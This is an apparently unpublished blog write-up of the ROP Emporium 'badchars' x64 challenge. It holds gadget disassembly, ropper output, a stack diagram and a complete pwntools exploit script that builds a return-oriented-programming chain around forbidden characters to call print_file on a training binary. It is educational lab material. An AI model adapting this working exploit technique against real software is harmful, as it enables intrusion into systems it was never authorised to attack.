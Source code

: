 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-5
title: ROP x64 Challenge 5
status: in progress
type: post
published: false
comments: true
date: 2022-07-13
---
```

## Challenge 5

Now we have the challenge of dealing with bad chars in our exploit. Not all exploitable programs are so nice to just read in whatever you give it. For example if you are sending a string of text, it may end on a newline, carriage return, or null space. However, you may need these characters to do your dream exploit. 

In order to get around this problem, we have to give the program chars that are accepted then later modify them into what we want. In this exploit, we have to do basically the same thing as the last exploit, however we are unable to pass the characters 'x', 'g', 'a', or '.' and all of those are needed to write in "flag.txt". So what we are going to do is write in some known ("but arbitrary") value's into the location of the bad chars. Then we will use gadgets to modify those values into what we want.

For example, rather then writing 'a' into the binary we write 'b' then we simply subtract 1 from that memory location. 


By this point, I realized that the author of the challenge's had included an 'usefulGadgets' section in the binary (probably should have sooner), so the first thing to do is look over those gadgets and see what we have to work with.

```
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     xor    BYTE PTR [r15],r14b
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     add    BYTE PTR [r15],r14b
   0x000000000040062f <+7>:     ret    
   0x0000000000400630 <+8>:     sub    BYTE PTR [r15],r14b
   0x0000000000400633 <+11>:    ret    
   0x0000000000400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    nop    DWORD PTR [rax+0x0]
End of assembler dump.
```

We can see that we probably need to control r12, r13, r14, r15, and rdi (first arg) in order to make use of these gadgets, so let's see if we have pop's for those.

```
pwndbg> ropper -- --search "pop r1?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r1?

[INFO] File: /root/working/badchars/badchars_64/badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 

pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/badchars/badchars_64/badchars
0x00000000004006a3: pop rdi; ret;
```

We can use the same write location from before to make the challenge as well.

We could use any of the xor, add, or sub modifying gadgets there (also or and and gadgets would work), but I'll use the sub gadget. So what we're going to do is place the ascii char 1 value greater in place of every bad char and then just subtract one from each of those location. So the stack will look like the following:

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r12 through r15
8  bytes | "flag.txt"     | # 1st 8 bytes of the string into r12
8  bytes | write loc      | # place location to write into r13
8  bytes | 1              | # the amount to subtract into r14
8  bytes | write loc + 2  | # the loc of the first char to change 'a' into r15
8  bytes | sub gadget     | # gadget to actually modify memory
8  bytes | pop_r + 3      | # pop only r15 off because the other registers can stay the same
8  bytes | write loc + 3  | # loc of 'g'
8  bytes | sub gadget     |
8  bytes | write loc + 4  | # loc of '.'
8  bytes | sub gadget     |
8  bytes | write loc + 6  | # loc of 'x'
8  bytes | sub gadget     | # now flag.txt should be in memory
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```

When I wrote up this exploit, it worked perfectly until I attempted to modify the '.' character and then some of my payload wasn't getting through. After some debugging, I discovered that the location pointer for write_loc+4 actually contained the hex value of one of the bad chars. So after some experimenting, I ended up shifting the location of my write up 3 bytes which is the write_loc + 3 in my exploit. You'll also see a check for bad chars at the end of the exploit so I don't run into that problem again.


```python 
#!/usr/bin/python3

from pwn import *
# pop r12; pop r13; pop r14; pop r15; ret; 
pop_gaget       = p64(0x40069c)
pop_15  = p64(0x4006a2)

# Move [r13] r12
write_gaget     = p64(0x400634)
pop_rdi         = p64(0x4006a3)
write_loc       = 0x601028 + 3
print_file      = p64(0x400620)
back_junk       = b"B" * 20
# sub    BYTE PTR [r15],r14b
sub_gaget = p64(0x0000000000400630)

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

badChars = b"xga."

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
        for i in range(0, len(payload), 8):
                continue
            # print(binascii.hexlify(payload[i:i+8]))

def string_place(write_string, write_start):
        returnPayload = b""
        toModify = []
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                # r12 Value
                temp = write_string[i:i+8]
                # pad in the values so it always fills in all 8 bytes
                temp += b"\x00" * ( 8 - len(temp) )
				
                x = b""
                for j in range(len(temp)):
						
                        #the while loop will keep modifing the value untill it is a good char
                        if temp[j] in badChars:
                                        x += (int(temp[j]) + 1).to_bytes(1, 'big')
											
                                        # this should be the exact memory address of the bad character
                                        toModify.append(write_start + i + j)
                        else:
                                x += temp[j].to_bytes(1, 'big')
                temp = x
                returnPayload += temp
                #destination r13
                returnPayload += p64( write_start+ (i))
                # This is the r14 value
                returnPayload += p64(0x01)
                # This is the r15 value
                returnPayload += p64(0xdeadbeefcafebabe)
                returnPayload += write_gaget
        for i in toModify:
                temp = b""
                temp += pop_15
					
                # This is the r15 value the lopcation to store and subtract from 
                temp += p64(i)
                temp += sub_gaget
                returnPayload += temp
        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload



io = process('./badchars')

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"./flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

for i in range(len(payload)):
        if payload[i] in badChars:
                print("Warning bad char detected")
                exit()

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))
sleep(1)
f = open('./payload', 'wb')
f.write(payload)
f.close()

```
